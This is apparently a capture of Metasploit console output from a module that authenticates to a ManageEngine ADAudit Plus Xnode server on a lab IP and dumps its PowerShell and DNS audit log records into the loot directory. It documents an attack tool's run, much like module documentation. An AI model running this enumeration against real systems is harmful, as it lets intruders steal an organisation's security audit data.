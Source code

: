 ```

[*] 192.168.1.25:29118 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29118 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29118 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29118 - Target is running Xnode version: "DataEngine-XNode 1.1.0 (1100)".
[*] 192.168.1.25:29118 - Obtained Xnode installation path: "C:\Program Files\ManageEngine\ADAudit Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29118 - Data repository AdapFileAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapPowershellAuditLog contains 261 records with ID numbers between 1.0 and 303.0.
[*] 192.168.1.25:29118 - Data repository AdapSysMonAuditLog is empty.
[+] 192.168.1.25:29118 - Data repository AdapDNSAuditLog contains 722 records with ID numbers between 1.0 and 926.0.
[*] 192.168.1.25:29118 - Data repository AdapADReplicationAuditLog is empty.
[*] 192.168.1.25:29118 - Attempting to request 261 records for data repository AdapPowershellAuditLog between IDs 1 and 303. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 303...
[+] 192.168.1.25:29118 - Saving 261 records from the AdapPowershellAuditLog data repository to /root/.msf4/loot/20220610073738_default_192.168.1.25_xnode_powershell_099421.json
[*] 192.168.1.25:29118 - Attempting to request 722 records for data repository AdapDNSAuditLog between IDs 1 and 926. This could take a while...
[*] 192.168.1.25:29118 - Processed 25 queries (max 10 records per query) so far. The last queried record ID was 250. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 50 queries (max 10 records per query) so far. The last queried record ID was 500. The max ID is 926...
[*] 192.168.1.25:29118 - Processed 75 queries (max 10 records per query) so far. The last queried record ID was 750. The max ID is 926...
[+] 192.168.1.25:29118 - Saving 722 records from the AdapDNSAuditLog data repository to /root/.msf4/loot/20220610073754_default_192.168.1.25_xnode_dnsaudit_775121.json
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_adaudit_plus_xnode_enum) >
```
